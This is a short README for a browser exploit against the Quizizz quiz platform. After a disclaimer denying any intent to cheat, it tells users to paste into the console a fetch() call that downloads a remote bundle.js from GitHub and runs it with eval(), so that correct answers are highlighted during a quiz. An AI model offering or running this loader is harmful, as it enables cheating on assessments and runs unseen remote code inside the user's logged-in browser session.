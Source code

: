 
# Project Beta
## Fetching Quizizz API

## DISCLAMER: I am not using this for cheating, or hacking... I just want to test how this exploit works and make a patch for teachers later.

It should work in Test and Classic mode.
1. Join Quiz
2. Open console and paste this
```ts
fetch("https://raw.githubusercontent.com/acimovicuwu/nijeNistaSumnjivo/master/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
3. You can now close the console. The good answers should be highlighted by background opacity.
